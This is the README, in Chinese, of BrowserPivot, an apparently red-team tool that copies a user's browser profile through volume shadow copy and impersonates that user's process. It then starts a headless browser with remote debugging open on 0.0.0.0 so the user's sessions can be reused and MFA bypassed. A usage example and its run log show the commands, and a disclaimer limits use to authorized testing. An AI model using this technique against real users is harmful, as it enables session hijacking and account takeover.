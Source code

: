 # BrowserPivot

BrowserPivot是一个基于卷影复制和浏览器调试模式功能以达到绕过MFA验证的自动化辅助工具。

# 使用场景

- 无法使用明文账号密码登录网站
- 无法使用Cookies登录网站

# 使用方法

```
-p 需要模拟的进程PID，通常为要访问的资源用户PID
-l 启动非占用本地端口
-b 请选择chrome或者msedge，其他选择请自行修改代码
```



```
C:\Users\rootrain\source\repos\BrowserPivot\BrowserPivot\bin\Debug>BrowserPivot.exe -p 10732 -l 2555 -b msedge

 ____                                  _____ _            _
|  _ \                                |  __ (_)          | |
| |_) |_ __ _____      _____  ___ _ __| |__) |__   _____ | |_
|  _ <| '__/ _ \ \ /\ / / __|/ _ \ '__|  ___/ \ \ / / _ \| __|
| |_) | | | (_) \ V  V /\__ \  __/ |  | |   | |\ V / (_) | |_
|____/|_|  \___/ \_/\_/ |___/\___|_|  |_|   |_| \_/ \___/ \__|

[+] Volume: \\?\Volume{e8e4545b-7571-4c89-ba6f-e6cf232eb558}\
[+] Shadow copy ID: {9688E39D-BD6F-4115-B596-90C6BCC71D26}
[+] Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
[+] Copy directory \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Users\rootrain\AppData\Local\Microsoft\Edge\User Data to directory C:\Users\rootrain\AppData\Local\UwFwjfWgw9
[+] msedge path: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
[+] Process handle: True
[+] Impersonated user: DESKTOP-TAVA6P8\rootrain
[+] Start process: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe --user-data-dir=C:\Users\rootrain\AppData\Local\UwFwjfWgw9 --remote-debugging-port=2555 --remote-debugging-address=0.0.0.0 --headless about:blank
[+] Shadows deleted successfully
```



# 注意事项

```
1.如发现C盘磁盘占用过高，请清除卷影复制的目录，位于C:\Users\%USERNAME%\AppData\Local\
2.如果进程无法进行模拟，可以多试几个PID，或者手动启动进行并模拟
```

# 免责声明
本工具仅面向合法授权的企业安全建设行为或教学使用，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描和攻击。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，作者将不承担任何法律及连带责任。

在安装并使用本工具前，请您务必审慎阅读、充分理解各条款内容，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

# 安恒-星火实验室
![starfile](starfile.jpeg)
专注于实战攻防与研究，研究涉及实战攻防、威胁情报、攻击模拟与威胁分析等，团队成员均来自行业具备多年实战攻防经验的红队、蓝队和紫队专家。本着以攻促防的核心理念，通过落地 ATT&CK 攻防全景知识库，全面构建实战化、常态化、体系化的企业安全建设与运营。
